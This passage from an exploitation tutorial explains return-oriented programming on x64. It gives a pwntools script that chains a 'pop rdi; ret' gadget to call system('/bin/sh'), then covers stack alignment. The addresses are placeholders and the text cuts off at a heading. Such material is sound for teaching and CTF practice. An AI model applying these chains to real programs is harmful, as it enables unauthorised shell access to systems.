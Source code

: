 ```
- **pop rdi; ret**: Pops the top value of the stack into **RDI** and then returns. Essential for setting our argument for **system()**.
- **ret**: A simple return, useful for stack alignment in some scenarios.

And we know the address of the **system()** function.

### **ROP Chain**

Below is an example using **pwntools** to set up and execute a ROP chain aiming to execute **system('/bin/sh')** on **x64**:

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
    ret_gadget,        # Alignment gadget, if needed
    pop_rdi_gadget,    # pop rdi; ret
    bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
    system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```
```
In this example:

- We utilize the **`pop rdi; ret`** gadget to set **`RDI`** to the address of **`"/bin/sh"`**.
- We directly jump to **`system()`** after setting **`RDI`**, with **system()**'s address in the chain.
- **`ret_gadget`** is used for alignment if the target environment requires it, which is more common in **x64** to ensure proper stack alignment before calling functions.

### Stack Alignment

**The x86-64 ABI** ensures that the **stack is 16-byte aligned** when a **call instruction** is executed. **LIBC**, to optimize performance, **uses SSE instructions** (like **movaps**) which require this alignment. If the stack isn't aligned properly (meaning **RSP** isn't a multiple of 16), calls to functions like **system** will fail in a **ROP chain**. To fix this, simply add a **ret gadget** before calling **system** in your ROP chain.

## x86 vs x64 main difference
```